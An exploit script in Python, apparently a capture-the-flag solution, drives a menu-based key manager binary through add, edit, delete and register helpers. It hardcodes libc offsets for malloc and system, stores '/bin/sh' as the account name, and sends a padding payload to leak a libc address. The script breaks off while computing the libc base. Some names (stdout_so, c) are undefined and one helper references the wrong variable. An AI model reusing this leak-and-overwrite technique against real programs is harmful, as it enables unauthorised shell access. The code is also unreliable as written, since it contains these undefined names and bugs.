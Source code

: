 ```python
malloc_so = 0x3c4b10
system_so = 0x045390

def add(_key, title, size='', line=1):
  if size is '':
    size = len(key)
  c.sendline('1')
  c.recvuntil('Input key length...')
  c.sendline(str(size))
  c.recvuntil('Input title...')
  if line:
    c.sendline(title)
  else:
    c.send(title)
  if int(str(size), 10) > 1:
    c.recvuntil('Input key...')
    if line:
      c.sendline(_key)
    else:
      c.send(_key)
  
def edit(id, _key, line=1):
  c.sendline('3')
  c.recvuntil('Input Account Name >> ')
  c.sendline(account)
  c.recvuntil('Input Master Pass >> ')
  c.sendline(master)
  c.recvuntil('Input id to edit...')
  c.sendline(str(id))
  c.recvuntil('Input new key...')
  if line:
    c.sendline(_key)
  else:
    c.send(_key)
def delete(id, ok=1):
  c.sendline('4')
  c.recvuntil('Input Account Name >> ')
  c.sendline(account)
  c.recvuntil('Input Master Pass >> ')
  c.sendline(master)
  c.recvuntil('Input id to remove...')
  c.sendline(str(id))
  if ok:
    c.recvuntil('>>')

def reg(account,master):
  c.recvuntil('>>')
  c.sendline(account)
  c.recvuntil('>>')
  c.sendline(master)
  
account = "/bin/sh\x00"
master = 'ok\x00'
  
reg(account,master)
c.sendline('9')
c.recvuntil('>>')
payload = 'X' * 0x18
c.send(payload)
c.recvuntil(payload)

libc_leak = u64(c.recv(6).ljust(8, chr(0)))
libc_base = libc_leak - stdout_so
```
